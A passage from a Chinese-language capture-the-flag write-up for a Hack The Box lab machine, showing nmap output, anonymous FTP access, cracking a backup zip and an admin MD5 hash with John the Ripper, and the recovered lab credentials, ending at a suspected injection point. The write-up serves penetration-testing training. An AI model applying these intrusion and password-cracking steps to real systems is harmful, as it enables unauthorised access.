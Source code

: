 ```
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

通过查看扫描结果，可以发现能用anonymous登录ftp:
```
ftp 10.129.9.183
```
输入anonymous，不用输入password，进入ftp后发现backup.zip文件，使用get backup.zip下载压缩包，使用unzip解压缩backup.zip文件，发现需要密码，使用john破解：
```
zip2john backup.zip > passwdtxt
爆破密码：
john passwd.txt
```
爆破后的密码是：
```
741852963        (backup.zip)
```
压缩包里有两个文件index.php和style.css
index.php内容重要的部分：
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

```
拿到管理员密码：
```
username:admin
password:2cb42f8734ea607eefed3b70af13bbd3(md5)
john解密md5得到：
qwerty789   
```
访问IP使用凭据登录:
![Alt text](../../../picture/HTB/start-point/Snipaste_2024-09-08_19-53-49.png)
发现搜索栏可能有注入。
